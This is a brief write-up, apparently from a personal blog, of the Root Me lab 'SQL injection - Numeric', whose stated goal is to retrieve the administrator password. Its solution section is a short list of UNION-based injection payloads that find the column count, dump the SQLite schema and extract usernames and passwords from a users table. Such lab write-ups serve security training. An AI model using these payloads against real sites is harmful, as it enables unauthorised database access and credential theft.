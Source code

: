 ```yaml
---
title: "SQL injection - Numeric"
tags:
    - Lab
    - Root Me
date: "2024-06-22"
thumbnail: "/assets/img/thumbnail/sqli.jpg"
bookmark: true
---
```

## Description

Retrieve the administrator password.

 <a href="http://challenge01.root-me.org/web-serveur/ch18/">Challange Link</a>

## Fast Solution


* id=3'
* id=3 order by 5 -- -
* id=3 union select 1,2,3 from sqlite_master -- -
* id=3 union select 1,sql,name from sqlite_master — –
* id=3 union select 1,username,password from users– –
